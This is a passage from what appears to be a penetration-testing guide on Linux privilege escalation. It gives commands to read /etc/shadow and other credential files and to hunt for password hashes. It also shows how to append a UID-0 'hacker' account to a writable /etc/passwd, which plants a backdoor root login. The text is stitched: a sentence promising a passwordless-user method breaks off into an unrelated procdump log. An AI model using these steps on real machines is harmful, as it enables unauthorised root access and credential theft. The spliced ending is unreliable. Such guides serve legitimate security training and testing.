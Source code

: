If you Forward Agent configured in an environment \[**check here how to exploit it to escalate privileges**]\(ssh-forward-agent-exploitation.md).

## Interesting Files

### Profiles files

The file `/etc/profile` and the files under `/etc/profile.d/` are **scripts that are executed when a user run a new shell**. Therefore, if you can **write or modify any of the you can escalate privileges**.

```bash
ls -l /etc/profile /etc/profile.d/
```

If any weird profile script is found you should check it for **sensitive details**.

### Passwd/Shadow Files

Depending on the OS the `/etc/passwd` and `/etc/shadow` files may be using a different name or there may be a backup. Therefore it's recommended **find all of hem** and **check if you can read** them and **check if there are hashes** inside the files:

```bash
#Passwd equivalent files
cat /etc/passwd /etc/pwd.db /etc/master.passwd /etc/group 2>/dev/null
#Shadow equivalent files
cat /etc/shadow /etc/shadow- /etc/shadow~ /etc/gshadow /etc/gshadow- /etc/master.passwd /etc/spwd.db /etc/security/opasswd 2>/dev/null
```

In some occasions you can find **password hashes** inside the `/etc/passwd` (or equivalent) file

```bash
grep -v '^[^:]*:[x\*]' /etc/passwd /etc/pwd.db /etc/master.passwd /etc/group 2>/dev/null
```

#### Writable /etc/passwd

First generate a password with one of the following commands.

```
openssl passwd -1 -salt hacker hacker
mkpasswd -m SHA-512 hacker
python2 -c 'import crypt; print crypt.crypt("hacker", "$6$salt")'
```

Then add the user `hacker` and add the generated password.

```
hacker:GENERATED_PASSWORD_HERE:0:0:Hacker:/root:/bin/bash
```

E.g: `hacker:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash`

You can now use the `su` command with `hacker:hacker`

Alternatively you can use the following lines to add a dummy user without a password.\
WARNING: you might degrade the current security of the machine.


[20:20:58 - WARN]: Procdump not running with elevated credentials. If your uid does not match the uid of the target process procdump will not be able to capture memory dumps
[20:20:58 - INFO]: Timed:
[20:21:00 - INFO]: Core dump 0 generated: ./sleep_time_2021-11-03_20:20:58.1714